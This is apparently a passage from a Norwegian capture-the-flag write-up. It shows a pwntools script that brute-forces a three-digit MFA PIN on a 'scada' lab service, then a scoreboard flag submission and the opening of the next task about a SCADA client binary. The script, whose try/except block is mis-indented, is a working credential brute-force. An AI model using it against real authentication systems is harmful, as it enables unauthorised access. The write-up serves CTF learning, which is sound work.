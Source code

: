 ```python
from pwn import *
while True:
    io = remote("scada", 1338)
    io.recvuntil(':')
    io.send("Joe5Farnaby")
    io.recvuntil(':')
    try:
        for i in range(999):
            pin = str(i).zfill(3)
            io.sendline(pin)
            data = io.recv()
            if b"Welcome back" in data:
                # PIN worked, we are in!
                io.recvline()
                io.recvline()
                io.recvline()
                io.recvline()
                exit(0)
            elif b"too many digits" in data:
                # You have entered too many digits for the MFA check
                # Reset connection
                break
            # else: the provided PIN was not correct
        except Exception as e:
            print("Exception in client:", e)
    io.close()
```

---

```sh
login@corax:~$ scoreboard 6b7e34a771b84d0863ce3c7dbd887463
Kategori: 2. Oppdrag
Oppgave:  2.3_scada_aksess
Svar:     6b7e34a771b84d0863ce3c7dbd887463

Godt jobbet! Nå må du bare hjelpe gisselet med å komme seg ut av bygningen!
```

## [2.3_scada_gissel](./gissel)

With the help of the extracted `Important links` file from the Vault in the Android application, we find a URL to a `Scada client binary` and proceed with downloading it.
```
Scada client binary:
http://fileserver/files/082391170510954df0c28af1ebb9380a
```
---

### Scada client binary
Taking a closer look at the binary we see that it attempts to send instructions to a server.
